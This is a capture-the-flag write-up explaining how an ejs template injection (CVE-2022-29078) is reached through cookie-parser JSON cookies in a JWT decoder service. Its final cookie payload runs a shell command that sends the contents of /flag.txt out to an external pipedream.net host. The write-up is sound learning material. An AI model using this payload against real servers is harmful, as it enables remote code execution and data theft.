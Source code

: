 # JWT Decoder

## Description

## Solution

It is a simple JWT decoder service.

![](images/main.png)

As the description suggests, I first looked into `package-lock.json` and searched CVEs for each of them.

```json
      "dependencies": {
        "cookie-parser": "^1.4.6",
        "ejs": "^3.1.6",
        "express": "^4.17.3"
      }
```

I encounter the [CVE-2022-29078](https://www.cvedetails.com/cve/CVE-2022-29078/), which is capable of RCE via SSTI on `ejs`. The details are well written [here](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

```
The ejs (aka Embedded JavaScript templates) package 3.1.6 for Node.js allows server-side template injection in settings[view options][outputFunctionName]. This is parsed as an internal option, and overwrites the outputFunctionName option with an arbitrary OS command (which is executed upon template compilation).
```

The point is we need to make `rawJwt` have `settings` in it.

```javascript
    res.render('index', rawJwt);
```

The only way to do so is reach below line. If we can make `req.cookies.jwt` as `object` with `settings` in it, the code will fail to parse it and eventually leave `settings` in it, but how to do that?

```javascript
    let rawJwt = req.cookies.jwt || {};

    try {
        // ...
    } catch(error) {
        if (typeof rawJwt === 'object') {
            rawJwt.error = error;           // this line
        } else {
```

@KSAlpha RTFM of [cookie-parser](https://www.npmjs.com/package/cookie-parser) and found very interesting feature like below.

```
In addition, this module supports special "JSON cookies". These are cookie where the value is prefixed with j:. When these values are encountered, the value will be exposed as the result of JSON.parse. If parsing fails, the original value will remain.
```

We ended up with this payload and got the flag. @KSAlpha, again, pointed out that we should url-encode `;` as `%3B` not to be interpreted as the separator for `Cookie` HTTP header.

```
j:{"settings": {"view options": {"outputFunctionName": "x%3Bprocess.mainModule.require('child_process').execSync('curl https://en4eruf2w138.x.pipedream.net/`cat /flag.txt`')%3Bs"}}} 
```

## Flag
`SCTF{p0pul4r_m0dule_Ar3_n0t_4lway3_s3cure}`